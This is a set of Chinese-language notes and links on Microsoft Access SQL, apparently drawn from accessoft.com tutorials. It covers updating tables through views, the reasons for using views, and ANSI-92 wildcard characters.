还能录入DBF [http://www.accessoft.com/article-show.asp?id=16851](http://www.accessoft.com/article-show.asp?id=16851)


参数化 查询，删除，增加，更新

[http://www.accessoft.com/article-show.asp?id=16855](http://www.accessoft.com/article-show.asp?id=16855)


[http://www.accessoft.com/article-show.asp?id=16862](http://www.accessoft.com/article-show.asp?id=16862)
创建的视图中是可以选择字段的，这就给我们生成各种临时的表以巨大的方便性。

我们可以通过更新语句来更新视图从而最终更新表中的内容，在图20-2中我们看到学号为1的钱梅宝同学的体育成绩为90，现在我们把它更新为100，语句如下：

Update 成绩视图

SET 体育=100

Where 学号=1;

运行后效果如图20-3的情况：


**为什么要使用视图**

主要原因有以下几条：

1、方便简单，定义好视图后查询的逻辑已经设定，可以之后重复调用查询，不用重复写查询语句；

2、安全，只读视图中的数据仅可查询，不能修改，不会影响正式表的数据；

3、逻辑数据独立性，应用视图前，程序只能通过访问数据表去实现操作，使用视图则可让程序访问数据表时，通过视图来分开；

4、有些数据库负责的项目组人员不一样，要串联不同数据库时，可以只建立视图供其他组的同事访问，则不用开放数据表出来，出问题也不会影响数据库的原始数据表。

**注意，视图修改Update也会修改原表格？**


**用ACCESS SQL读取HTML表格中的数据**
www.accessoft.com/article-show.asp?id=16874


通配符，英文叫“wildcard character”，是一种专用的占位符，在样式中代表一个或多个真正的字符，在搜索中用于模糊查询。MS Access支持两组通配符，因为它支持结构化查询语言的两个标准：ANSI-89和ANSI-92。通常，对 Access 数据库（.mdb和.accdb文件）执行查询和查找替换操作时，使用ANSI-89通配符，这是ACCESS默认的标准。因为ANSI-92标准在当今应用更广泛深入，我们这里为了与新的标准接轨，采用的是ANSI-92的标准，故我们在文中只针对ANSI-92标准的SQL通配符作出说明。


www.accessoft.com/article-show.asp?id=16875


